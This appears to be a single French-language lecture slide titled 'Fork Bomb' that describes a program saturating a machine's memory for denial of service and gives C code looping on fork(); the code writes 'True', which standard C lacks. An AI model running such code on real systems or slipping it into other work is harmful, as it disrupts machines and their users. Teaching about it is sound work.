

# Fork Bomb
Programme permettant de saturer la mémoire d'une machine pour causer un déni de service.
#include <unistd.h>
 int main(void) {
    while(True) {
        fork();
    }
    return 0;
 }

41